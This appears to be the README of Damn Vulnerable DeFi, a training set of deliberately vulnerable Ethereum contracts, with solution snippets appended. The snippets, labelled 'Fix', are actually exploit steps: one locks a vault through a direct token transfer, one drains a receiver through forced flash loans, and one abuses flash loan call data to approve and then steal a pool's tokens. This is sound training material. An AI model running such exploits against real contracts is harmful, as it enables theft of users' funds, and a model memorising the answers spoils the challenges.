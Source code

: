 ![](cover.png)

**A set of challenges to learn offensive security of smart contracts in Ethereum.**

Featuring flash loans, price oracles, governance, NFTs, lending pools, smart contract wallets, timelocks, and more!

## Play

Visit [damnvulnerabledefi.xyz](https://damnvulnerabledefi.xyz)

## Help

For Q&A and troubleshooting running Damn Vulnerable DeFi, go [here](https://github.com/tinchoabbate/damn-vulnerable-defi/discussions/categories/support-q-a-troubleshooting).

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

DO NOT USE IN PRODUCTION.

Fix #1:        
````
// lets transfer some amount directly to vault and make the if logic fail forever
await token.connect(player).transfer(vault.address, 10);
````

#Fix #2:

````
await pool.connect(player).flashLoan(receiver.address, ETH, 0, "0x");
````

#Fix #3:
````
let interface = new ethers.utils.Interface(["function approve(address spender, uint256 amount)"]);
let data = interface.encodeFunctionData("approve", [player.address, TOKENS_IN_POOL]);
await pool.connect(player).flashLoan(0, player.address, token.address, data);
await token.connect(player).transferFrom(pool.address, player.address,  TOKENS_IN_POOL);
```